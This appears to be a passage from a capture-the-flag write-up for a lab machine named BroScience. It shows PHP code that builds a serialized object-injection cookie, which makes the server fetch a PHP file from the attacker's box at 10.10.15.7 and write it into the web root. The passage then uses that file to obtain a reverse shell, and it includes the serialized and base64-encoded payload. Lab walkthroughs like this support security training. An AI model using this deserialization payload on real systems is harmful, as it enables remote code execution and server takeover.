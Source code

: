 ```php
# __wake_up magic method will be called when an AvatarInterface object
# is instanciated, so it will create an Avatar with the $imgPath filepath
# and the content we set on the file_get_contents().
# With file_get_contents() we can import the content from a remote server (our attack box)
$avatar->imgPath="/var/www/html/k.php";
$avatar->tmp="http://10.10.15.7:5454/k.php";

# Then print our serialized payload
echo serialize($avatar);
echo "\n";
# And the format for the cookie
echo base64_encode(serialize($avatar));
```

Execution:

```bash

php -f serialize.php

```

Output:

```php

O:15:"AvatarInterface":2:{s:3:"tmp";s:28:"http://10.10.15.7:5454/k.php";s:7:"imgPath";s:19:"/var/www/html/k.php";}

TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyODoiaHR0cDovLzEwLjEwLjE1Ljc6NTQ1NC9rLnBocCI7czo3OiJpbWdQYXRoIjtzOjE5OiIvdmFyL3d3dy9odG1sL2sucGhwIjt9  

```


Now we can edit our cookie with the result of the PHP payload we have prepared and we can see the HTTP request to our server when we Forward the request to the server. The, we can load https://broscience.htb/k.php to get our revshell:


<p align="center">